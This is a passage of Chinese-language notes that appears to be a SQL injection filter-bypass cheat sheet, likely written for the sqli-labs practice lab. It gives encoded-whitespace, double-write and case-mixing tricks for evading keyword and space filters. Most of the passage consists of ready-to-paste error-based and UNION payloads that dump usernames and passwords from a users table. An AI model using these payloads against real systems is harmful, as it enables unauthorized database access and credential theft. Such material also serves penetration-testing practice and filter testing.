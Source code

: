 >
>           ```
>
>   -   **特殊字符都被过滤**
>
>       -   编码绕过
>
>           ```sql
>           %09 TAB键（空格）
>           %0A 新建一行（空格）
>           %0C 新的一页
>           %0D return即回车功能 （php-5.2.17,5.3.29成功）
>           %0B TAB键（垂直）
>           %A0 空格 （php-5.2.17成功）
>           用()绕过 不使用任何空格
>               
>           payload [%26 = &，%7c = |]
>           '%26%26extractvalue(null,concat(0x7e，(select(group_concat(username,'~',passwoorrd))from(security.users)),0x7e))%7c%7c'1
>               
>           -字符型-括号
>           ')union%A0select(1),(select(group_concat(id,'~',username,'~',passwoorrd))from(security.users)),3%7c%7c('1
>           ```
>
>   -   **特殊字符与select union被过滤**
>
>       -   ```sql
>           绕过方式
>           双写绕过
>           uniunionon   selecselectt
>               
>           大小写绕过
>           select ->  SeLect   union -> UNion
>               
>           '%09and%09updatexml(1,concat(0x7e,(SeleCt(database())),0x7e),1)and'1
>           '%09and%09updatexml(1,concat(0x7e,(SeleCt(group_concat(username,password))from(users)),0x7e),1)and'1
>               
>           -- 双引号
>           "%09and%091=2%09%09uniunionon%09SElselectect%091,(SElect(group_concat(database()))),3%09or%09"1
>               
>           "%09and%091=2%09%09uniunionon%09SElselectect%091,(SElect(group_concat(username,password))from(users)),3%09or%09"1
>           ```
>
>   -   **过滤了union select 忽略大小写，过滤了#和注释、空格**
>
>       -   ```sql
>           双写绕过
>           union
>                           
>           加字符绕过
>           union all select
>                           
>           -- payload
>           ')%0aand%0a1=2%0aunion%0aall%0aselect%0a1,database(),3%0aor ('1
>           ')%0aand%0a1=2%0aunion%0aall%0aselect%0a1,(SElect(group_concat(username,password))from(users)),3%0aor ('1
>
>
>           ")%0aand%0a1=2%0aunion%0aall%0aselect%0a1,database(),3%0aor ("1
>               